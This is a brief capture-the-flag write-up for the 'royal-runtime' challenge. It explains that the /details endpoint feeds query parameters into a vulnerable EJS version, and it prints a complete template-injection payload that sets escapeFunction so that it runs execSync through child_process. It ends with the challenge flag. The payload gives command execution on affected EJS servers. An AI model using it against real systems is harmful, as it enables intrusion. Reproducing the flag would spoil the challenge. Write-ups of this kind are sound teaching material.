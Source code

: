 # royal-runtime

## Write-up

- Basically check the /details endpoint as it accepts any query, you can take advantage of this to put injection payload as the EJS version used in this challenge is vulnrable.
- The flag is located in the root of the machine.

> Payload used is:
> ?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor.\_load('child_process').execSync('THE COMMAND YOU WANT TO PERFORM');

## Flag

`shellmates{WE_t0ld_y0U,_U$3_EJs_4T_y0UR_oWn_RI$K!!}`
